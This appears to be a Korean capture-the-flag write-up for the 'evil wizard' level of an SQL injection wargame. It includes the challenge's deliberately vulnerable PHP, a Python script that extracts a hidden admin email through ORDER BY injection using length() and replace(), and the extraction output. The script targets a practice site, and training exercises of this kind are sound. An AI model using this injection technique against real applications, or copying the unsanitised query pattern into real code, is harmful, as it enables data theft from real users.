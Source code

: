 # evil wizard

## 1. Code
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|proc|union|sleep|benchmark/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_evil_wizard where 1 order by {$_GET[order]}"; // same with hell_fire? really?
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysqli_query($db,$query);
  while(($result = mysqli_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_evil_wizard where id='admin' and email='{$_GET[email]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("evil_wizard");
  highlight_file(__FILE__);
?>
```

## 2. Condition
- GET 파라미터 `order`을 받고, 쿼리 속 마지막 `order by`뒤에 붙인다.
- 쿼리 결과를 테이블로 보여주는데, admin의 email은 공개하지 않는다.
- 정확한 admin email값을 알아내면 해결된다.   
- 이전 문제와 비교하면 `union`, `sleep`, `benchmark` 필터링이 추가되었는데, 내가 해결한 방식으로는 제약이 없다.   

## 3. Solution
이전 문제, <a href="./../hell_fire/hell_fire.md">hell_fire</a>와 동일한 방법으로 해결하였다.   

자세한 설명은 위 링크를 통해 확인하도록 하고, 간단하게 설명하자면    
`order by` 뒤에 함수를 연결시킬 수 있다는 점에서   
`length`, `replace`함수를 이용하여 rubiya email 값을 하나하나 바꿔가며 admin email의 길이와 값을 찾아내었다.    

그리고 최종적으로 대소문자 확인을 위해 `replace`함수를 통해 나온 admin email 값을 다시한번 돌렸다.    


코드는 다음과 같다.
```python
import requests
import binascii

cookie = {'PHPSESSID' : '~~~~'}

def str2hex(string_1):
    return binascii.hexlify(string_1.encode('utf-8')).decode('utf-8')



rubiya_email = "rubiya805@gmail.com"
for i in range(1,101):
    url = "https://los.rubiya.kr/chall/evil_wizard_32e3d35835aa4e039348712fb75169ad.php?\
            order=length(replace(email,0x%s,\'%s\'))" % (str2hex(rubiya_email), '!'*i)
    res = requests.get(url, cookies=cookie)
    
    if "<tr><td>admin</td><td>**************</td><td>50</td></tr><tr><td>rubiya</td><td>rubiya805@gmail.com</td><td>100</td></tr>" in res.text:
        email_len = i-1
        print("Length of pw : %d" % email_len)
        break

        
        
tmp_admin_email = ""
for i in range(email_len):
    for j in range(32,1000):
        hex_rubiya = str2hex(tmp_admin_email+chr(j))
        url = "https://los.rubiya.kr/chall/evil_wizard_32e3d35835aa4e039348712fb75169ad.php?\
                order=replace(email,0x%s,0x%s)" % (str2hex(rubiya_email), hex_rubiya)
        res = requests.get(url, cookies=cookie)

        if "<tr><td>admin</td><td>**************</td><td>50</td></tr><tr><td>rubiya</td><td>rubiya805@gmail.com</td><td>100</td></tr>" in res.text:
            tmp_admin_email += chr(j-1)
            print("email(%d) : %s" % (i+1, tmp_admin_email))
            break
            

            
final_admin_email = ""
print("-----------------------------------------------")
print("| admin email | ", end="")
for i in range(email_len):
    url = "https://los.rubiya.kr/chall/evil_wizard_32e3d35835aa4e039348712fb75169ad.php?\
            order=replace(email,0x%s,0x%s)" % (str2hex(rubiya_email), str2hex(final_admin_email + tmp_admin_email[i].upper()))
    res = requests.get(url, cookies=cookie)
    
    if "<tr><td>admin</td><td>**************</td><td>50</td></tr><tr><td>rubiya</td><td>rubiya805@gmail.com</td><td>100</td></tr>" in res.text:
        final_admin_email += tmp_admin_email[i].upper()
    
    else:
        final_admin_email += tmp_admin_email[i].lower()
    
    print("%s" % (final_admin_email[i]), end="")
    
print("\n-----------------------------------------------")
```   



결과는 다음과 같다.   
```
Length of pw : 30
email(1) : A
email(2) : AA
email(3) : AAS
email(4) : AASU
email(5) : AASUP
email(6) : AASUP3
email(7) : AASUP3R
email(8) : AASUP3R_
email(9) : AASUP3R_S
email(10) : AASUP3R_SE
email(11) : AASUP3R_SEC
email(12) : AASUP3R_SECU
email(13) : AASUP3R_SECUR
email(14) : AASUP3R_SECURE
email(15) : AASUP3R_SECURE_
email(16) : AASUP3R_SECURE_E
email(17) : AASUP3R_SECURE_EM
email(18) : AASUP3R_SECURE_EMA
email(19) : AASUP3R_SECURE_EMAI
email(20) : AASUP3R_SECURE_EMAIL
email(21) : AASUP3R_SECURE_EMAIL@
email(22) : AASUP3R_SECURE_EMAIL@E
email(23) : AASUP3R_SECURE_EMAIL@EM
email(24) : AASUP3R_SECURE_EMAIL@EMA
email(25) : AASUP3R_SECURE_EMAIL@EMAI
email(26) : AASUP3R_SECURE_EMAIL@EMAI1
email(27) : AASUP3R_SECURE_EMAIL@EMAI1.
email(28) : AASUP3R_SECURE_EMAIL@EMAI1.C
email(29) : AASUP3R_SECURE_EMAIL@EMAI1.CO
email(30) : AASUP3R_SECURE_EMAIL@EMAI1.COM
-----------------------------------------------
| admin email | aasup3r_secure_email@emai1.com
-----------------------------------------------
```   


나온 값, `aasup3r_secure_email@emai1.com`을 GET 파라미터 `email`에 넣어주면 문제가 해결된다.   
변수명 | 값
---|---
`email` | aasup3r_secure_email@emai1.com